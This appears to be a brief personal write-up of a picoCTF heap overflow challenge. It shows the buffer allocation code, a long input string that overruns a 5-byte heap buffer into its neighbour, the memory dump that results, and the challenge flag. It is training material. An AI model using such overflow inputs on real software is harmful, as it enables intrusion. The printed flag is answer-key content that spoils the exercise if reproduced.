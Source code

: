 ```yaml
---
created: 2024-06-15T20:50
updated: 2024-06-15T20:55
---
```


```cpp
#define INPUT_DATA_SIZE 5
#define SAFE_VAR_SIZE 5
input_data = malloc(INPUT_DATA_SIZE);
safe_var = malloc(SAFE_VAR_SIZE);
```

Naïve attempt to overflow will... oh it worked.

```
Enter your choice: 2
Data for buffer: 0123456789012345678901234567890123456789

+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5e89e4f682b0  ->   0123456789012345678901234567890123456789
+-------------+----------------+
[*]   0x5e89e4f682d0  ->   23456789
+-------------+----------------+
```

I guess even heaps are connected.

```
picoCTF{my_first_heap_overflow_4fa6dd49}
```
